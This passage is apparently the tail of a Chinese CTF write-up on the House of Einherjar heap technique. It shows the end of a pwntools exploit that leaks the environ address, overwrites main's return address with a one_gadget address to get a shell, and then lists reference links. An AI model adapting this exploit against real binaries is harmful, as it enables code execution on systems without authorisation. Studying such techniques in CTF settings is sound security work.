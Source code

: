 ```python
    #gdb.attach(p)

    # get environ addr
    p.recvuntil(' # CONTENT: ')
    environ_addr = p.recvuntil('\n', drop=True).ljust(8, '\x00')
    environ_addr = u64(environ_addr)
    main_ret_addr = environ_addr - 30 * 8

    # set memo[0].content point to main_ret_addr
    edit(2, p64(main_ret_addr))
    # overwrite main_ret_addr with one_gadget addr
    edit(1, p64(one_gadget_addr))
    p.interactive()


if __name__ == "__main__":
    run()
```

## 参考

[CTF-WIKI - House Of Einherjar](https://ctf-wiki.github.io/ctf-wiki/pwn/heap/house_of_einherjar/)

[PWN学习之house of系列(一)](https://paper.seebug.org/521/)

[Glibc：浅谈 malloc_consolidate() 函数具体实现](https://blog.csdn.net/plus_re/article/details/79265805)

